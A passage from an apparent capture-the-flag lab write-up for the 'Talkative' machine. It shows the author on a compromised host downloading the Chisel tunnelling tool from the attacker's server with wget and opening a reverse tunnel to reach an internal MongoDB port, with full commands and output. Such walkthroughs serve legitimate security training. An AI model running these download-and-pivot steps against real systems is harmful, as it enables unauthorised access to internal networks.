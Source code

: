 ```

```

27017 is [commonly used for](https://www.speedguide.net/port.php?port=27017) MongoDB.

### Rocket Chat Admin

#### Tunnel

The tools to connect to Mongo are not installed on Talkative. I’ll upload [Chisel](https://github.com/jpillora/chisel) and create a tunnel. After hosting it on my webserver, I’ll fetch it:

```

saul@talkative:/dev/shm$ wget 10.10.14.6/chisel_1.7.7_linux_amd64
--2022-08-22 20:18:43--  http://10.10.14.6/chisel_1.7.7_linux_amd64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8077312 (7.7M) [application/octet-stream]
Saving to: ‘chisel_1.7.7_linux_amd64’

chisel_1.7.7_linux_ 100%[===================>]   7.70M  7.43MB/s    in 1.0s    

2022-08-22 20:18:44 (7.43 MB/s) - ‘chisel_1.7.7_linux_amd64’ saved [8077312/8077312]

saul@talkative:/dev/shm$ chmod +x ./chisel_1.7.7_linux_amd64 

```

I’ll start `chisel` as a server on my host:

```

oxdf@hacky$ /opt/chisel/chisel_1.7.7_linux_amd64 server -p 8000 --reverse
2022/08/22 20:20:10 server: Reverse tunnelling enabled
2022/08/22 20:20:10 server: Fingerprint lBroorqb8hNJ1apYMV0NtLd7Urs/x5mHOi9mmaT0ckY=
2022/08/22 20:20:10 server: Listening on http://0.0.0.0:8000

```

I’ll use port 8000 since Burp is using the default of 8080. I’ll also give the `--reverse` flag to say that I want clients to be able to open ports on my host.

Now I’ll connect from talkative:

```

saul@talkative:/dev/shm$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:27017:172.17.0.2:27017 
2022/08/22 20:21:51 client: Connecting to ws://10.10.14.6:8000
2022/08/22 20:21:52 client: Connected (Latency 86.206267ms)

```

The server reports success:
